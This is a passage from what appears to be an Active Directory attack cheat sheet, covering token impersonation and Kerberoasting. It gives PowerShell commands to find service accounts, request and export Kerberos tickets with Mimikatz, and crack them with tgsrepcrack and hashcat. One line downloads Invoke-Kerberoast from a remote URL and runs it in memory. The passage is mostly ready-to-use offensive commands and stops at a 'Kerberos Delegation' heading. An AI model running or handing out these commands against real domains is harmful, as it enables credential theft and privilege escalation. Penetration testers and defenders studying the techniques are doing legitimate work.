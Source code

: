 ##### Start a new process with token of a specific user:
```Powershell          
Invoke-TokenManipulation -ImpersonateUser -Username “domain\user”
```        
##### Start new process with token of another process:
```Powershell          
Invoke-TokenManipulation -CreateProcess “C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe” -ProcessId 500
```        
       
#### Domain Privilege Escalation:
    
##### Kerberoast:
        
Find service account:
GetUserSPNs:
https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
            
PowerView
```Powershell              
Get-NetUser -SPN
```            
ActiveDirectory module
```Powershell              
Get-ADUser -FIlter {ServicePrincipalName -ne “$null”} -Properties ServicePrincipalName
```            
Request a ticket:
```Powershell              
Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList “<SPN you want ticket for>”
```            
Request-SPNTicket            
            
Check if the ticket has been granted
klist.exe
        
 Export all tickets using Mimikatz:
```Powershell              
Invoke-Mimikatz -Command ‘"kerberos::list /export"’
```            
Crack the service account password:
```Powershell              
python.exe .\tgsrepcrack.py .\passwords.txt ‘<kerberos fil>’      | https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py
```            
Return ready to hashcat format kirb.txt:
```Powershell              
iex (new-object net.webclient).downloadstring("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1");Invoke-Kerberoast -output Hashcat | Select hash -expandproperty hash > kirb.txt
```            
hashcat:
```Powershell              
hashcat -m 13100 kirb.txt -w 3 -a 3 YOURWORDLIST.txt --force
```            

##### Kerberos Delegation:
        